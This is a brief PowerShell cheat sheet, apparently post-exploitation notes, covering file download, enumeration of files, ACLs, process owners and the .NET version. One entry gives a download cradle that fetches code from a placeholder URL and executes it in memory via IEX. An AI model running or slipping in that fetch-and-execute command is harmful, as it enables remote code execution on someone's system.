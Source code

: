 # Extract zip file
`Expand-Archive <FILE>.zip`

# Download to disk
## using .Net WebClient:
`(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)`

## using Invoke-WebRequest
`IWR '<URL>' -OutFile <FILENAME>`

# Execute powershell in memory
`(New-Object Net.WebClient).DownloadString('<URL>') | IEX`

# Get files only in a directory
`(ls -File -Recurse -Force -EA SilentlyContinue).fullname`

# find OS architecture
`$env:processor_architecture`

# Get ACL
`Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString`

# Get Process Owners
`Get-WmiObject -class win32_process | select name,@{n='owner';e={$_.getowner().user}}`

# Get .NET Version
## Paths:
`c:\windows\microsoft.net\framework`
`c:\windows\microsoft.net\framework64`
## Command:
`(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion`